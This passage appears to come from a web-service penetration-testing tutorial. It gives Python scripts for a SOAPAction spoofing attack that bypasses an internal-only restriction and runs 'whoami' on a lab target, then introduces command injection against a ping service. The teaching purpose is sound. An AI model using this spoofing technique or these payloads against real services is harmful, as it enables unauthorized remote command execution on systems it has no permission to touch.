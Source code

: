 ```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

We get an error mentioning This function is only allowed in internal networks. We have no access to the internal networks. Does this mean we are stuck? Not yet! **Let us try a SOAPAction spoofing attack**, as follows:

Let us build a new Python script for our SOAPAction spoofing attack (save it as client_soapaction_spoofing.py):
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

- We specify ```LoginRequest in <soap:Body>```, so that our request goes through. This operation is allowed from the outside;
- We specify the parameters of ExecuteCommand because we want to have the SOAP service execute a whoami command;
- We specify the blocked operation (ExecuteCommand) in the SOAPAction header.


If the web service determines the operation to be executed based solely on the SOAPAction header, we may **bypass the restrictions and have the SOAP service execute a whoami command**.

<br>
<br>
<br>
<br>

# Command injection

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.


Suppose we are assessing such a connectivity-checking service residing in ```http://<TARGET IP>:3003/ping-server.php/ping```. Suppose we have also been provided with the source code of the service.
